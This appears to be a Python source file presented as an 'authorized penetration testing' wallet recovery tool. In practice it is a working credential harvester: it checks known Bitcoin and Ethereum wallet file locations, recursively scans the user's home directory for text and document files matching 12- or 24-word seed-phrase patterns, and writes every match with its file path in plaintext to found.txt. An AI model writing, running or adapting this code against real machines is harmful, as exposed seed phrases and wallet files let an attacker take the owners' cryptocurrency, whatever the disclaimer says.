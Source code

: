 # crypto_seeds
#!/usr/bin/env python3
"""
Cryptocurrency Wallet Recovery Script
For authorized penetration testing only
"""

import os
import hashlib
import binascii
import json
from pathlib import Path
import re

def search_common_wallet_locations():
    """Search common locations where wallet files might be stored"""
    common_paths = [
        os.path.expanduser("~/.bitcoin/wallet.dat"),
        os.path.expanduser("~/.ethereum/keystore/"),
        os.path.expanduser("~/AppData/Roaming/Bitcoin/wallet.dat"),
        "/Applications/Bitcoin-Qt.app/Contents/MacOS/wallet.dat"
    ]
    
    found_wallets = []
    
    for path in common_paths:
        if os.path.exists(path):
            found_wallets.append(path)
            print(f"[+] Found potential wallet: {path}")
            
    return found_wallets

def scan_for_seed_phrases(directory):
    """Scan text files for potential seed phrases"""
    seed_patterns = [
        r'\b([a-z]{3,10}\s+){11}[a-z]{3,10}\b',  # 12-word seed phrase pattern
        r'\b([a-z]{3,10}\s+){23}[a-z]{3,10}\b'   # 24-word seed phrase pattern
    ]
    
    found_seeds = []
    
    try:
        for root, dirs, files in os.walk(directory):
            for file in files:
                if file.endswith(('.txt', '.log', '.doc', '.docx')):
                    filepath = os.path.join(root, file)
                    try:
                        with open(filepath, 'r', encoding='utf-8', errors='ignore') as f:
                            content = f.read()
                            
                        for pattern in seed_patterns:
                            matches = re.findall(pattern, content, re.IGNORECASE)
                            if matches:
                                for match in matches:
                                    found_seeds.append((filepath, match))
                                    print(f"[+] Potential seed phrase found in: {filepath}")
                    except Exception as e:
                        continue
    except Exception as e:
        print(f"Error scanning directory: {e}")
        
    return found_seeds

def save_findings(findings, output_file="found.txt"):
    """Save all findings to a file"""
    try:
        with open(output_file, 'w') as f:
            f.write("=== Wallet Recovery Results ===\n\n")
            
            if findings['wallet_files']:
                f.write("Found Wallet Files:\n")
                for wallet in findings['wallet_files']:
                    f.write(f"- {wallet}\n")
                f.write("\n")
                
            if findings['seed_phrases']:
                f.write("Potential Seed Phrases:\n")
                for filepath, seed in findings['seed_phrases']:
                    f.write(f"- File: {filepath}\n")
                    f.write(f"  Seed: {seed}\n")
                f.write("\n")
                
            if findings['addresses']:
                f.write("Found Addresses:\n")
                for addr in findings['addresses']:
                    f.write(f"- {addr}\n")
                    
        print(f"[+] Results saved to {output_file}")
        return True
        
    except Exception as e:
        print(f"Error saving findings: {e}")
        return False

def main():
    """Main function for wallet recovery"""
    print("=== Authorized Cryptocurrency Wallet Recovery ===")
    print("This tool is for authorized penetration testing only.\n")
    
    findings = {
        'wallet_files': [],
        'seed_phrases': [],
        'addresses': []
    }
    
    # Search for wallet files
    print("[*] Searching for wallet files...")
    findings['wallet_files'] = search_common_wallet_locations()
    
    # Scan for seed phrases in user directory
    print("[*] Scanning for seed phrases...")
    home_dir = Path.home()
    findings['seed_phrases'] = scan_for_seed_phrases(str(home_dir))
    
    # Save findings
    if any(findings.values()):
        print("\n[*] Saving findings...")
        save_findings(findings)
    else:
        print("[-] No wallet artifacts found.")
        # Create empty file to indicate completion
        with open("found.txt", "w") as f:
            f.write("No wallet artifacts found during authorized penetration test.\n")

if __name__ == "__main__":
    main()
